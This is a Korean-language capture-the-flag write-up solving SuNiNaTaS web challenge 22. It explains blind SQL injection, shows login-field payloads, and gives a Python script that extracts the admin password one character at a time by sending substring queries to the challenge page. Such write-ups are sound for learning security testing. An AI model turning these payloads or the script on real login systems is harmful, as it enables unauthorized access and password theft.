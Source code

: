 # [WEB] 22

### 초기화면
![초기화면](./img/22_1.png)
로그인 폼과 함께 메시지들이 있다.

이 문제는 블라인드sql인젝션이고 어떤 것들을 필터링하는가..


>#### [블라인드 SQL 인젝션](https://ko.wikipedia.org/wiki/SQL_%EC%82%BD%EC%9E%85#Blind_SQL_%EC%82%BD%EC%9E%85)
> -웹에서 SQL 삽입에 취약하나 데이터베이스 메시지가 공격자에게 보이지 않을 때 사용
>
>-평범한 SQL 삽입은 쿼리를 삽입하여 원하는 데이터를 한번에 얻어낼 수 있는 데에 비해 Blind SQL 삽입은 참과 거짓, 쿼리가 참일때와 거짓일 때의 서버의 반응 만으로 데이터를 얻어냄. 


---
### 풀이
![소스코드](./img/22_2.png)
페이지 소스코드에는 특별한 코드는 없고 힌트를 보면 id가 guest는 비번도 guest.

그리고 찾아야 하는 것은 admin의 pw


![체크](./img/22_3.png)
일단 id와 pw를 무작위로 입력해보면 "False"라는 메시지가 출력됨을 알 수 있다.

![체크](./img/22_4.png)
guest로 로그인을 하면 "OK"와 함께 id가 출력됨을 알 수 있다.
![체크](./img/22_5.png)
id에 주석문 처리 쿼리를 넘기면 잘 된다..

사실 #에 경우 되질 않는다. 이미 라이트업을 다 참조해서 실습하는 것이라 잘 되지만 실제로 공격시에는 이 페이지의 데이터베이스가 무엇인지를 여러 쿼리 시도를 통해 파악해야한다. 

이제 패스워드의 글자수를 파악해야 한다.

![글자수 파악](./img/22_6.png)

`admin' and len(pw)<15--` 이런 식으로 참이 되는 쿼리문을 찾아내서 범위를 좁혀나간다. 11보다 작지만 10보단 작지 않다는 범위를 찾아낼 수 있고 패스워드 길이가 10인 것을 파악했다.

여기서는 필터링 리스트를 일부 알려줬기에 and를 바로 활용했지만 and까지 필터링 했을 경우등을 감안해서 실제 공격시 다양한 패턴의 쿼리를 보내봐야 한다..len()의 경우도 DB에 따라 length()일 수도 있다.

10글자임을 알았으니 한글자씩 맞나 틀리나를 확인해야 한다. 오래 걸리기에 파이썬을 활용해서 자동화하여 알아낸다.

```python
# -*- coding: utf-8 -*- 
import requests 
# url
url = "http://suninatas.com/challenge/web22/web22.asp"
 
cookie = {"ASPSESSIONIDCSSCCCBB" : "KPFDBEICFONODJOEKNGCGIDL"}
wordlist = "abcdefghijklmnop1234567890ABCDEFGHIJKLMNOP<>?!@#$%^&*()_+"
result  = ""
 
 
print("써니스타스 22번")
print("블라인드 인젝션을 시작합니다.")
 
for i in range(0, 10):
    for k in range(0, len(wordlist)):
        query = "admin'and(substring(pw," + str(i+1) + ",1)='" + wordlist[k] + "')--"
        response = requests.get(url, params={'id': query, 'pw': 'qwerty'}, cookies=cookie)
        
        if "OK" in response.text:
            print("[+]" + str(i+1) + "번째 비밀번호는 " + wordlist[k] + "입니다.")
            result += wordlist[k]
            break
 
print("[!]" + " 최종 비밀번호는 " + result + "입니다.")


##출처: https://penek.tistory.com/58 [꿈꾸는자칭 짱짱햌커.]
```
위의 출처에서 코드를 받아와서 사용했다. 

파이썬의 requests모듈을 이용해서 GET request를 보내고 그에 대한 response에서 결과가 참이면 OK가 나타남을 활용해서 패스워트를 알아낸다.

---

![authkey](./img/22_authkey.png)
소스코드를 실행시키면 비밀번호 획득!

---